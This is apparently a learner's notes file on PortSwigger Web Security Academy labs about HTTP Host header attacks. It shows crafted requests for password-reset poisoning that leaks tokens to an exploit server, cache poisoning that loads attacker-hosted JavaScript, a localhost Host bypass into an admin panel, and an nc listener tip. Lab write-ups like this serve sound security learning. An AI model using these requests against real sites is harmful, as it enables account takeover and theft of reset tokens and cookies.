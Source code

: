 all technique that Portswigger teach us, read [here](https://portswigger.net/web-security/host-header/exploiting)

# Password reset poisoning
## general
Note the email is sent to you even tho we changed the `Host header` to point to somewhere else. The plan is we will change host name to a malicious site or the site that we have a control of. The easies way to do this is user the exploit server that the Lab offers.


I then changed host header to `<original>.com/exploit/` and set it to myself. When I click on it I will send a GET request to the server. On the Access log, I can see that there was a incoming request for `/exploit/forgot-password?temp-forgot-password-token=<token here>`


The goal is change the host header to `<original>.com/exploit/` and change `user=carlos`. Carlos will click on the email and we will then be able to see it on the access log. we will the copy the token and use it to reset carlos password!


Note: If we do ctf, just point it to our `ip:port` and run `nc` listen to that port

## via middleware
```
POST /forgot-password HTTP/1.1
Host: acef1f6f1f685ced80bd5a0d008b0020.web-security-academy.net
X-Forwarded-Host: accd1fba1fc55c3180755a7501740032.web-security-academy.net/exploit
```
same as last task but we cannot use the same trick. This time we are using `X-Forwarded-Host`. How this I find out? just trying out the techniques that PortSwigger mentioned before.. So now when we know that is work by trying on our own account. change `user=carlos` -> check access log for token `/forgot-password?temp-forgot-password-token=wSoizV4lQdJDO84TTnBa6V6cj610GiIT`. Visit it and reset Carlos password!

## via dangling markup
```html
     <script>
            window.addEventListener('DOMContentLoaded', () => {
                for (let el of document.getElementsByClassName('dirty-body')) {
                    el.innerHTML = DOMPurify.sanitize(el.getAttribute('data-dirty'));
                }
            });
        </script>
```

```
POST /forgot-password HTTP/1.1
Host: ac051fe31fa115bd809f1db800380059.web-security-academy.net:'<a href="//ace31ff61f66157680481d3c01e4005d.web-security-academy.net/exploit/
```

```html
<p>Hello!</p><p>Please <a href='https://ac051fe31fa115bd809f1db800380059.web-security-academy.net:'<a href="//ace31ff61f66157680481d3c01e4005d.web-security-academy.net/exploit/?/login'>click here</a> to login with your new password: pUFVxOIq1g</p><p>Thanks,<br/>Support team</p><i>This email has been scanned by the MacCarthy Email Security service</i>
```

no way, I logged into the server with carlos but wasn't done taking note, and do more experiment.... can we redo the lab?

# web cache poisoning
I read in guideline on the PortSwigger, It is not to hard to understand how it works but I learn more when I listen so I youtube a bit on how web cache poisoning works. I couldn't make the extension works so I just try to add different header and end up with `HOST`
```
GET / HTTP/1.1
Host: ac971f5a1fb39ab7807d059500930022.web-security-academy.net
Host: kuro.net
```
an it seem like it works. line 19 in http response
```html
       <script type="text/javascript" src="//kuro.net/resources/js/tracking.js">
```
I try to inject a malicious js code `" <script> alert(document.cookie) </script>` but it didn't work. it end up like this
```html
<script type="text/javascript" src="//" 
    <script> alert(document.cookie) </script>
    /resources/js/tracking.js">
</script>
```
and ofc it didnt work, we even mess up the web. So I was thinking that what if I crate a server which `kurohat.net/resources/js/tracking.js` with the content `alert(document.cookie)` then it should works since the web page will load my malicious page on ``kurohat.net/resources/js/tracking.js`


Instead of using our own website, we can use exploit server that the lab offering instead. create a page `/resources/js/tracking.js` with content `alert(document.cookie)` then click *store*. now copy the link and insert it as our 2nd `host` header. Use repeater to send our request util you get response with `Age: 0`. Try to visit the page, If you get an alert then we are good!!


# Host header authentication bypass
```
This lab makes an assumption about the privilege level of the user based on the HTTP Host header.

To solve the lab, access the admin panel and delete Carlos's account. 
```
I assume that the admin page is at `/admin` and luckily I got it right! I send it to *Repeater* I tried to add like `X-Forwarded-For`/ `X-Forwarded-Host: localhost`. but it didnt work. I the just remove the original `host` parameter and replace it with localhost and boom, it work!! Now open it on web browser and click delete Carlos's account -> send it to *burp* and again replace the original host with localhost

# Routing-based SSRF
```
This lab is vulnerable to routing-based SSRF via the Host header. You can exploit this to access an insecure intranet admin panel located on an internal IP address.

To solve the lab, access the internal admin panel located in the 192.168.0.0/24 range, then delete Carlos
```
to create payload, run
```zsh
$ python3 -c "for i in range (0,256): print(i);" > subnet.txt
```
I tried, you need Burp PRO (Burp Collaborator) to solve this!

# SSRF via flawed request parsing
Also need, Burp PRO (Burp Collaborator)